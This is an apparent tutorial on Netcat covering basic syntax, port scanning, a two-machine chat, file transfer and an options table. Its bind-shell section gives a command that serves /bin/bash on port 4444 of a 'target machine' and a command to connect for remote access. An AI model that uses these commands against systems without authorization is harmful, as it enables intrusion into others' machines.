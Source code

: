 # 📚 **Netcat Guide**

## 🛠️ **Basic Commands**

### **Basic Syntax**

```bash
nc [options] [IP Address or hostname] [port]
```

---

## 🌐 **Connecting to a Server**

### **Example: Connect to a Simple TCP Server**

```bash
nc 192.168.1.10 80
```

This connects to **192.168.1.10** on port **80**.

---

## 🔍 **Port Scanning**

### **Example: Scan a Range of Ports**

```bash
nc -zv 192.168.1.10 20-100
```

- **`-z`**: Zero I/O mode (for scanning).
- **`-v`**: Verbose mode (displays more details).

This scans ports **20** to **100** on **192.168.1.10** and shows which are open.

---

## 🔁 **Setting Up a Simple Chat**

### **Step 1: Start a Listener**

On one machine, run:

```bash
nc -lvp 1234
```

- **`-l`**: Listen mode.
- **`-v`**: Verbose output.
- **`-p`**: Specify port (here, **1234**).

### **Step 2: Connect from Another Machine**

```bash
nc 192.168.1.5 1234
```

Replace **192.168.1.5** with the listener’s IP address. Now you can chat between the two machines!

---

## 📤 **File Transfer**

### **Send a File**

On the **sender** machine:

```bash
nc [receiver IP] 1234 < file.txt
```

### **Receive a File**

On the **receiver** machine:

```bash
nc -lvp 1234 > received.txt
```

This sends **file.txt** and saves it as **received.txt** on the receiver’s side.

---

## 🕵️ **Bind Shell (Remote Access)**

### **Start a Bind Shell (on the target machine)**

```bash
nc -lvp 4444 -e /bin/bash
```

- **`-e`**: Executes the specified program (**bash**).

### **Connect to the Shell**

```bash
nc [target IP] 4444
```

Now you have remote access to the target’s command line!

---

## ⚠️ **Important Notes**

1. **Security**: Be cautious when using Netcat for bind shells. Unauthorized use is illegal.
2. **Firewall**: Ensure your firewall settings allow Netcat traffic for legitimate testing purposes.

---

## 🔗 **Common Options Summary**

| Option | Description |
|--------|-------------|
| `-l`   | Listen mode. |
| `-v`   | Verbose mode. |
| `-p`   | Specify a port. |
| `-z`   | Scan mode (no data transfer). |
| `-e`   | Execute a command (used for bind shells). |

---
